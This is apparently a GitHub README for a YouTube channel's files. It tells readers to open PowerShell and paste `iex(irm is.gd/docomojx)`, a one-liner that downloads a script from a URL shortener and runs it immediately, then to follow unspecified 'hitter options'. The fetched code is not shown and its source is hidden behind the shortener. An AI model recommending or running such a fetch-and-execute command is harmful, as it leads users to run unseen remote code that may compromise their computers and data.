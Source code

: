 # TechTubeInsider
TechTube Insider YouTube Channel's Files

# Method 1 - PowerShell
(Recommended)

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
*`iex(irm is.gd/docomojx)`
* You will see the hitter options, follow the on-screen instructions.
* That’s all.


